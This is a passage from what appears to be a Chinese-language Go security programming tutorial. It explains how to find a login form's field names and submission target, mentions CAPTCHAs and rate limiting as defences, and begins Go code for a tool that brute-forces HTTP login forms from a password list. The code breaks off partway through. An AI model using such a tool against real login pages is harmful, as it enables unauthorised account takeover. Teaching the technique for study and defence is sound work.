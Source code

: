 每个网络表单都可以使用不同的名称创建`用户名`和`密码`字段，因此这些字段的名称需要在每次运行时提供，并且必须特定于目标 URL。

查看源代码或检查目标表单，以获取输入元素的`name`属性以及`form`元素的目标`action`属性。如果`form`元素中没有提供操作 URL，则默认为当前 URL。另一个重要的信息是表单上使用的方法。登录表单应该是`POST`，但有可能编码不好，使用了`GET`方法。有些登录表单使用 JavaScript 提交表单，可能完全绕过标准的表单方法。使用这种逻辑的站点需要更多的逆向工程来确定最终的提交目的地和数据格式。您可以使用 HTML 代理或在浏览器中使用网络检查器查看 XHR 请求。

后面的章节将讨论 Web 爬取和在`DOM`接口中查询特定元素的方法，但本章不会讨论尝试自动检测表单字段并识别正确的输入元素。这一步必须在这里手动完成，但一旦识别出来，暴力攻击就可以自行运行。

为了防止这样的攻击，实施一个 CAPTCHA 系统或速率限制功能。

请注意，每个 Web 应用程序都可以有自己的身份验证方式。这不是一刀切的解决方案。它提供了一个基本的`HTTP POST`表单登录示例，但需要针对不同的应用程序进行轻微修改。

```go
package main 

import ( 
   "bufio" 
   "bytes" 
   "fmt" 
   "log" 
   "net/http" 
   "os" 
) 

func printUsage() { 
   fmt.Println(os.Args[0] + ` - Brute force HTTP Login Form 

Passwords should be separated by newlines. 
URL should include protocol prefix. 
You must identify the form's post URL and username and password   
field names and pass them as arguments. 

Usage: 
  ` + os.Args[0] + ` <pwlistfile> <login_post_url> ` + 
      `<username> <username_field> <password_field> 

Example: 
  ` + os.Args[0] + ` passwords.txt` +
      ` https://test.com/login admin username password 
`) 
} 

func checkArgs() (string, string, string, string, string) { 
   if len(os.Args) != 6 { 
      log.Println("Incorrect number of arguments.") 
      printUsage() 
      os.Exit(1) 
   } 

   // Password list, Post URL, username, username field, 
   // password field 
   return os.Args[1], os.Args[2], os.Args[3], os.Args[4], os.Args[5] 
} 

func testLoginForm( 
   url, 
   userField, 
   passField, 
   username, 
   password string, 
   doneChannel chan bool, 
) 
{ 
   postData := userField + "=" + username + "&" + passField + 
      "=" + password 
   request, err := http.NewRequest( 
```